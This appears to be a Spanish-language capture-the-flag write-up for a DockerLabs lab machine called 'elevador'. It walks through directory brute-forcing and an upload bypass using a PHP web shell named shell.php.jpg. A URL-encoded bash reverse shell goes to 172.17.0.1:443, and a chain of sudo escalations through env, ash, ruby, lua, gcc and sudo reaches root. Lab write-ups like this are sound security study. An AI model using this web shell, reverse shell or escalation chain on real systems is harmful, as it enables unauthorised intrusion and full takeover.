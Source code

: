 nmap:  80

![image](https://github.com/user-attachments/assets/206a9c1a-9a66-4136-b0f9-050aa3a76ad0)


---
dentro de la pagina podemos ver que nos da un mensaje al abrir el ascensor:

![image](https://github.com/user-attachments/assets/43924d93-9367-4f22-9921-583d71be6e11)

![image](https://github.com/user-attachments/assets/7e847733-9588-4015-94c3-874fb076e3e1)

al hacer una ataque de fuerza bruta a los directorios  nos mostrara un "themes",

      gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,txt -k

![image](https://github.com/user-attachments/assets/6b57711b-3b7a-4c5a-9ec9-8278ccd4ea80)


ahora si hacemos otra vez un gobuster pero agregando el "themes" 

      gobuster dir -u http://172.17.0.2/themes -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,txt -k


y nos dará algunos importantes

![image](https://github.com/user-attachments/assets/3582ef9d-7e61-442d-80d0-9124e65d5e37)


si ingresamos al primero o sea al uploads nos mandara a una subida de archivos

![image](https://github.com/user-attachments/assets/a369a585-4f64-44ec-aea7-50398bcbd6e1)


como también me dio: archivo.html nos vamos ahí y vemos que podemos subir archivos pero solo archivos JPG

![image](https://github.com/user-attachments/assets/48ab9e59-7a3a-4580-a1df-2d9ba76fd769)


como solo deja subir archivos "jpg" modificamos un archivo 
> nano shell.php.jpg

dentro tendrá este código:

    - <?php system($_GET['cmd']); ?>

vemos que se subió

![image](https://github.com/user-attachments/assets/1e4b7b39-2209-4d3e-97da-5376f04cf198)

 presionamos el archivo que nos muestra y veremos que no hay nada pero en la URL la modificamos para que quede así:
 
   > 172.17.0.2/themes/uploads/675712b70a259.jpg?cmd=whoami

![image](https://github.com/user-attachments/assets/22fedb8d-23f2-4bda-804c-dccda91b64da)

nos mostrara "www-data" o sea que la vulnerabilidad esta, así que modificamos la terminal con una bash y colocamos el terminal en escucha
dejamos la terminal asi:

> 172.17.0.2/themes/uploads/675712b70a259.jpg?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/172.17.0.1/443%200%3E%261%22

![image](https://github.com/user-attachments/assets/aaf0c7df-4b93-4a68-8979-148e56b1defe)


y ahora dentro si hacemos un "sudo -l" vemos que podemos escalar por "env", 
![[env.png]]
la buscamos: https://gtfobins.github.io/gtfobins/env/

como se que hay otros usuarios pobre y funciono el escalado con daphne:
> sudo -u daphne /usr/bin/env /bin/sh
![[usuario1.png]]

y somos el usuario daphne

al hacer sudo -l da: "ash" la buscamos: https://gtfobins.github.io/gtfobins/ash/

ahora lanzamos asi:
> sudo -u vilma /usr/bin/ash
![[dockerlabs/facil/elevador/usuario2.png]]

y somos vilma

ahora al hacer sudo -l da que es ruby buscamos donde mismo y lanzamos asi:
> sudo -u shaggy /usr/bin/ruby -e 'exec "/bin/sh"'
![[dockerlabs/facil/elevador/usuario3.png]]

ahora somos shaggy y entonces ahora buscamos como escalar y aparece "lua"

lanzamos el comando así:
> sudo -u fred /usr/bin/lua -e 'os.execute("/bin/sh")'

![[usuario4.png]]

somos fred

podemos escalar con gcc y donde mismo buscamos y lanzamos el comando:
> sudo -u scooby /usr/bin/gcc  -wrapper /bin/sh,-s .

![[usuario5.png]]

somos scooby

ahora al hacer sudo -l podemos  ver que se escala por "sudo", modifico  el codigo para que se vea de esta forma:
> sudo -u root /usr/bin/sudo /bin/bash

![[dockerlabs/facil/elevador/root.png]]

y somos root! 
